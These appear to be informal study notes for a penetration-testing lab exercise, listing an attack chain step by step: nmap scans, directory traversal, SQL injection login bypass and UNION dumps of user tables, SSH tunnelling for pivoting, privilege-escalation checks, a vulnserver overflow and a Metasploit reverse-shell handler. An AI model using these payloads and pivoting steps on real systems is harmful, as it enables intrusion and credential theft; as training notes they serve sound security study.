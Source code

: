 -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


DTY RUN TEST 



extra
-----------
upoload file
go to robots.txt
go to my uploaded file 

**************************************
*2 types of encoding rot13 and base64*
***************************************


DRY RUN steps
---------------
ping sweep for a large subnet and then do nmap for individuals 
1) nmap -v -sT -Pn -T4 -sV 10.50.45.7
2) saw port 80 so i did: nmap -v -sT -Pn -T4 -sV --script=http-enum.nse 10.50.41.7 -p 80
3) go to the website
4) download everything from top to bottom of the website, click on everything enumorate everything.
5) try command injection: ; whoami , or traversal ../../../../../../../../../etc/passwd, or sql Tom ' OR 1='1 
6) sees its direcory traversal doing: ../../../../../../../../../etc/passwd
7) does another traversal ./../../../../../../../../etc/hosts -> sees a new host means we gotta scan when we get to that box
8) goes to sign in does tom ' or 1='1 in the user pass thats the post;
9)  the get method is putting it in the url, go via F12, go to network click on post, then request click raw form
10)  make a master socket to the first box: ssh -M -S /tmp/grey  -o StrictHostKeyChecking=no -o UserKnownHostFile=/dev/null user2@10.50.41.7
11)  run sudo -l, and find / -type f -perm /6000 -ls  2> /dev/null
12)  cat /etc/hosts, /etc/passwd, /etc/crontab
13)  for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done
14)  set up proxy chains ssh -S /tmp/grey a -O forward -D 9050
15)  nmap the other ips
16)  run --scripts http-enum
17)  ssh -S /tmp/grey a -O forward -L 7996:192.168.181:80
18)  ssh -S /tmp/grey a -O forward -L 7997:192.168.181:22
19)  goes to 80 does sql injection and tested it: 127.0.0.1:7996/pick.php?product=7 OR 1=1;
20)  127.0.0.1:7996/pick.php?product=7 UNION select 1,2,3 -> sees its messed up so not its 1,3,2
21)  127.0.0.1:7996/pick.php?product=7 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns WHERE table_schema=database()
22)  127.0.0.1:7996/pick.php?product=7 UNION SELECT user_id,username,name FROM siteusers.users
23)  ssh to the next box and make a new master socket
24)  once on the box rescan the network via for loop
25)  run the find perms 
26)  do sudo -l if gets hits go to GTFO bins see what we can do -> priv execlate
27)  cat /etc/host, /etc/passwd, /etc/crontab
28)  set up dynamic host to / tunnel to get to the box
29)  scan the new box
30)  if it has 9999 its vulserver -> use my scripts/Winbuff.py
31)  open msfcon -> multi/handler -> set payload windows/meterpreter/reverse_tcp -> set lhost 0.0.0.0 -> set lport 4444
32)  go to the box via xfreerdp -> do to services via mmc -> look at regedit hklm\..\run,runonce -> look at scheduled tasks
33)  replace the binary -> restart?
34)  look at taskscheduler
35)  look at registy

